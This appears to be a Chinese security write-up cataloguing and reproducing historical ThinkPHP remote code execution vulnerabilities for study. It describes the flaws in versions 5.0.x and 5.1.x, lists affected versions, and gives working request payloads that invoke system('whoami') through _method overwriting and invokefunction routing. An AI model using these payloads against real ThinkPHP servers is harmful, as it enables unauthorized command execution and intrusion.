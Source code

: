 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [zone.secevery.com](http://zone.secevery.com/article/1165)

ThinkPHP 是一个快速、简单的基于 MVC 和面向对象的轻量级 PHP 开发框架，遵循 Apache2 开源协议发布。ThinkPHP 从诞生以来一直秉承简洁实用的设计原则，在保持出色的性能和至简的代码的同时，也注重开发体验和易用性，为 WEB 应用和 API 开发提供了强有力的支持。

  **0x00 前言**  
本篇文章将针对 ThinkPHP 的历史漏洞进行整理复现，今后爆出的 ThinkPHP 漏洞，也将进行补充更新。

  **0x01ThinkPHP 远程命令执行 / 代码执行漏洞**

  **一，ThinkPHP 5.0.23 远程代码执行**  
**漏洞介绍**  
2019 年 1 月 11 日，360CERT 发现某安全社区出现关于 ThinkPHP5 RCE 漏洞的威胁情报，不久之后 ThinkPHP5 官方与 GitHub 发布更新。该更新修复了一处严重漏洞，该漏洞可导致远程命令代码执行。  
Thinkphp 在实现框架中的核心类 Request 的 method 方法实现了表单请求伪装。但由于对 $_POST[‘_method’] 属性校验不严格，导致攻击者可以通过变量覆盖掉 Request 类的属性并结合框架特性实现对任意函数的调用，从而实现远程代码执行。

  **影响版本**  
THINKPHP 5.0.x-5.0.23

  **漏洞分析参考：**  
https://www.freebuf.com/vuls/194093.html

  **漏洞复现（内网环境）**  
访问 192.168.10.53，选择对应版本  
需要目标开启 debug 模式

  **Poc/exp:**  
设置 url 参数 s=captcha，post 数据

```
_method=__construct&filter=system&method=get&server[REQUEST_METHOD]=whoami
```

[![](http://zone.secevery.com/uploads/article/20191220/02b59cfc58d675df0a9e6a6504b4ecf4.png)](http://zone.secevery.com/uploads/article/20191220/02b59cfc58d675df0a9e6a6504b4ecf4.png)

  **二，ThinkPHP 5.0.22 远程代码执行**  
**漏洞介绍**  
2018 年 12 月 9 日，ThinkPHP 官方发布安全更新，修复一处由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的 getshell 漏洞，受影响的版本包括 5.0 和 5.1 版本，山石网科安服团队经过分析，把该漏洞危险级别定为严重。  
Thinkphp5.x 版本 (5.0.20) 中没有对路由中的控制器进行严格过滤，在存在 admin、index 模块、没有开启强制路由的条件下（默认不开启），导致可以注入恶意代码利用反射类调用命名空间其他任意内置类，完成远程代码执行

  **影响版本**  
THINKPHP 5.0.5-5.0.22  
THINKPHP 5.1.0-5.1.30

  **漏洞分析参考：**  
https://www.secpulse.com/archives/93903.html

  **漏洞复现（内网环境）**  
访问 192.168.10.53，选择对应版本

  **命令执行 payload：**

```
?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1]=whoami
```
